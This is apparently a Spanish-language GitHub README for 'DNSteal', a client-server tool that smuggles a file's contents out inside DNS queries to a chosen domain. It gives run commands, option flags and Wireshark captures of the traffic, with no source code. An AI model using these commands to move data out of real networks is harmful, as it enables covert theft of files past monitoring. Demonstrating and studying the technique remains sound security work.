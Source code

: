 # DNSteal

## Uso

#### :computer: Ejecutar el programa

* **Server**

```bash
python3 DNS_Server.py
```

<img src="/media/Server.png" width="300" title="use example">

* **Client**

```bash
python3 DNS_Client.py -s Server_IP -f File
```

<img src="./media/Client.png" width="300" title="use example">

### :triangular_flag_on_post: Flags del Programa

* **Server**

```bash
-s / --server: [Opcional] IP que quieras para el servidor. Predet = 0.0.0.0
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
-i / --ip: [Opcional] IP de respuesta falsa. Predet = 127.0.0.1
-p / --port: [Opcional] Puerto que desea utilizar. Predet = 53
```
* **Client**

```bash
-s / --server: [Requerido] IP a la que desea conectarse
-f / --file: [Requerido] Archivo que contiene el mensaje
-t / --time: [Opcional] Tiempo que las solicitudes esperan una respuesta del servidor. Predet = 5
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
```

### :movie_camera: Demostración de Uso

https://user-images.githubusercontent.com/35707527/210063728-522d5e92-1198-4cfb-9cf6-34a1e27cd88e.mp4

### :mailbox_with_mail: Paquetes de Wireshark

Se puede ver en el paquete el subdominio, el dominio y el tipo de registro DNS, el A

<img src="./media/Packet_Wireshark.png" width="1000" title="use example">

Y cuando inspeccionamos mas de cerca los paquetes podemos ver el puerto que hemos configurado para la peticion y la IP del servidor que hemos determinado con el argumento -s

<img src="./media/Packet.png" width="1000" title="use example">
